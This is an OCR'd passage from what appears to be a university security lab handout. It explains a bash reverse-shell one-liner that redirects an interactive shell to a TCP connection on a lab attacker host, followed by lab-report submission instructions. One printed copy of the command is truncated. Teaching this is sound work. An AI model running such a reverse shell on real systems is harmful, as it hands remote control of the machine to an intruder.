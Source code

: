 that the shell is running on the Server machine; we can type the _ifconfig_ command to verify that the IP
address is indeed _10.0.2.5,_ the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&
```
The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- _"/bin/bash -i":_ The option i stands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
-_ "> /dev/tcp/10.0.2.6/9090":_ This causes the output device (stdout) of the shell to be
    redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems,stdout’s file
    descriptor is 1.
- _"0<&1":_ File descriptor 0 represents the standard input device (stdin). This option tells the system
    to use the standard output device as the stardard input device. Sincestdoutis already redirected to
    the TCP connection, this option basically indicates that the shell program will get its input from the
    same TCP connection.
-_ "2>&1":_ File descriptor 2 represents the standard error stderr. This causes the error output to be
    redirected tostdout, which is the TCP connection.

In summary, the command_ "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1"_ starts
a bashshell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the bashshell command is executed on _10.0.2.5_, it
connects back to the netcat process started on_ 10.0.2.6._ This is confirmed via the _"Connection
from 10.0.2.5 ..."_ message displayed by _netcat._


## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


